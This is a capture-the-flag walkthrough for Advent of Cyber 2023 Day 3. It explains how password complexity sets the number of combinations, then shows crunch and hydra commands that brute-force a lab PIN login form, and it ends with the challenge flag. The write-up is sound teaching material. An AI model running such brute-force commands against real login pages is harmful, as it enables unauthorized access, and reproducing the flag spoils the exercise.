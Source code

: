 # Day 3

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/40a1d025-4fe8-4490-acdd-5bcdf22193f2)

# Scenario

The server room is securely locked, and the team must regain access to recover backup tapes. Brute-forcing the PIN panel stands out as the potential option.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/be86e8da-1c7a-4a1f-9d83-d0cc82af0cbe)


## Learning Objectives

Upon completing this task, you will gain an understanding of:
    
    - Password complexity and the count of possible combinations.
    - The impact of the number of possible combinations on the feasibility of brute force attacks.
    - Generating password combinations using `crunch`.
    - Automated password trials using `hydra`.

## Feasibility of Brute Force

### Inquiries

    1. How many distinct PIN codes exist?
    2. How many passwords can be generated?
    3. What is the time estimate for finding the password via brute force?

## Counting the PIN Codes

Many systems depend on PIN codes or passwords for user authentication. Without proper security measures, such systems are susceptible to various attacks. Here, we explore brute force attacks, where an adversary systematically tries all possible combinations of a given password.

Consider a scenario where a four-digit PIN code must be selected. The total count would be 10,000 different PIN codes: 0000, 0001, 0002,..., 9998, and 9999. Mathematically, this is 10×10×10×10 or simply 10^4 different PIN codes.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/6e1c8b72-7e67-4fcb-8f1d-7ad686b1246e)


## Counting the Passwords

Let's imagine a scenario with a four-character password, where each character can be:

    - A digit: We have 10 digits (0 to 9).
    - An uppercase English letter: We have 26 letters (A to Z).
    - A lowercase English letter: We have 26 letters (a to z).

Therefore, each character can be one of 62 different choices. Consequently, for a four-character password, we can create 62×62×62×62 = 62^4 = 14,776,336 different passwords.

To enhance complexity, symbols can be added, expanding the set of choices by more than 30 characters.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/cebdf03b-911a-4b72-b045-43939842a530)




We can make passwords more secure by increasing the password complexity. This can be achieved by specifying a minimum password length and character variety. For example, the character variety might require at least one uppercase letter, one lowercase letter, one digit, and one symbol.


# Day 3 Tasks:

## 1. Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?

### PIN Code Retrieval Using crunch and hydra

1. **Objective:** Using `crunch` and `hydra`, discover the PIN code to access the control system and unlock the door. Identify the flag.

2. **Procedure:**
   
         - Navigate to [http://MACHINE-IP:8000/login.php](http://MACHINE-IP:8000/login.php).
         - Identify that the system utilizes a 3-digit password.
         - Generate a password list with `crunch` using the following command:

   ![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/0f48b3f2-5b6d-47da-a8f3-43dcb29aafde)

   
     ```bash
     crunch 3 3 0123456789ABCDEF -o 3digits.txt
     ```
```

╰─ crunch 3 3 0123456789ABCDEF -o 3digits.txt                                             ─╯
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

crunch: 100% completed generating output
```


## Password Cracking with Hydra

1. **Objective:** Utilize `Hydra` to crack the password using the previously created wordlist and access the control system.

2. **Procedure:**
   - Use the following `hydra` command:
   
     ```bash
     hydra -l '' -P 3digits.txt -f -v MACHINE-IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
     ```
   
   - Explanation of the command:
     - `-l ''`: Specifies an empty username.
     - `-P 3digits.txt`: Specifies the password list generated using `crunch`.
     - `-f`: Stops the attack upon successful password discovery.
     - `-v`: Enables verbose mode.
     - `http-post-form "/login.php:pin=^PASS^:Access denied"`: Defines the login form parameters.
     - `-s 8000`: Specifies the port.

3. **Unlocking the Device:**
   - After obtaining the password, log in using the discovered PIN code.
   - Unlock the device to retrieve the flag.

4. **Flag:**
   - The flag is revealed upon successfully unlocking the device:

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/323d8f1d-05e5-40ca-be5d-5150e83e97f2)

        THM{pin-code-brute-force}
    

